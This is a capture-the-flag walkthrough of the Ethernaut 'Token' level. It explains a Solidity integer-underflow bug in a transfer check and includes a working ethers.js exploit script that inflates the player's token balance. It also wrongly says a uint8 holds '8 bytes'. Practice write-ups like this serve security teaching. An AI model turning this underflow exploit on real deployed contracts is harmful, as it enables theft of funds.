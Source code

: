 ```yaml
---
description: >-
  In Ethernaut's Token, we have our assumptions about unsigned integers
  challenged.
---
```


# 5 - Token

In [this level](https://ethernaut.openzeppelin.com/level/0x63bE8347A617476CA461649897238A31835a32CE) we are given 20 tokens and tasked with obtaining more.

### Hints

<details>

<summary>Hint One</summary>

The thing to keep in mind about this level is we're being asked to transfer _more_ _tokens_ than we actually have.

</details>

<details>

<summary>Hint Two</summary>

How might Solidity handle a "negative" unsigned integer?

</details>

### Full Walkthrough

The contract's `transfer` function requires that the requested amount of tokens to transfer is not greater than the total balance of the message sender's account. This check, however, has been  implemented in an unsafe way.&#x20;

```solidity
function transfer(address _to, uint _value) public returns (bool) {
    require(balances[msg.sender] - _value >= 0);
    balances[msg.sender] -= _value;
    balances[_to] += _value;
    return true;
}
```

In Solidity versions prior to 0.8.0, `uint` types were susceptible to **overflow** and **underflow**. This means that when their value was incremented or decremented outside the bounds of what their size could contain, the value would simply roll over or roll under, like an odometer.

{% hint style="info" %}
**Overflow and Underflow**

In integer overflow, once an unsigned integer reaches its maximum byte size, the next element added will return the first variable element. For example, a `uint8` can hold 8 bytes of data, meaning it can store any number between 0 and 255. If a `uint8` has the value of 255 and 1 is added to it, it will _overflow_ to 0.

Underflow is just the opposite, if a `uint8` has the value of 0 and 1 is subtracted from it, it will _underflow_ to 255.
{% endhint %}

Because the require statement subtracts `_value` from `balances[msg.sender]`, if we simply supply a value that is greater than the balance, the result of the subtraction will underflow, in this case to 2\*\*256 - 1. We just need to transfer this value to any address other than our own and our account balance becomes the result of the underflow, an enormous number of tokens!&#x20;

### Scripted Solution

```javascript
const ethers = require('ethers')
const fs = require('fs')
require('dotenv').config({ path: './.env' })

/**
 * Initialize Ethers objects needed to interact with the blockchain and
 * contract.
 */
async function setup(contractName) {
  // Create provider - a read-only abstraction to access blockchain data
  const provider = new ethers.providers.InfuraProvider(process.env.NETWORK)
  // Create player wallet
  const playerWallet = new ethers.Wallet(process.env.PRIVATE_KEY)
  // Create player wallet signer - an abstraction of an Ethereum account
  const playerWalletSigner = await playerWallet.connect(provider)
  // Create contract instance - an abstraction of the deployed contract code
  const contractAbi = fs.readFileSync(`./${contractName}.abi`, 'utf8')
  const contract = new ethers.Contract(
    process.env.CONTRACT_ADDRESS,
    contractAbi,
    playerWalletSigner
  )

  return { provider, playerWallet, playerWalletSigner, contract }
}

/**
 * Run contract exploit.
 */
async function main() {
  // Get Ethers objects needed to interact with the blockchain and contract
  const {
    playerWallet,
    contract: tokenContract,
  } = await setup('Token')

  // Get player address initial balance
  const playerAddressBalance = await tokenContract.balanceOf(
    playerWallet.address
  )
  console.log(`Player address initial balance: ${playerAddressBalance}.`)

  // Transfer balance + 1 tokens to a random wallet
  const tokensToTransfer = Number(playerAddressBalance) + 1
  console.log(`Transferring ${tokensToTransfer} tokens to player address...`)
  await tokenContract.transfer(process.env.RANDOM_ADDRESS, tokensToTransfer)
}

main()
  .then(() => process.exit(0))
  .catch((error) => {
    console.error(error)
    process.exit(1)
  })
```

### Key Takeaways

* In older versions of Solidity, **uint** types were vulnerable to value **overflow** and **underflow**.
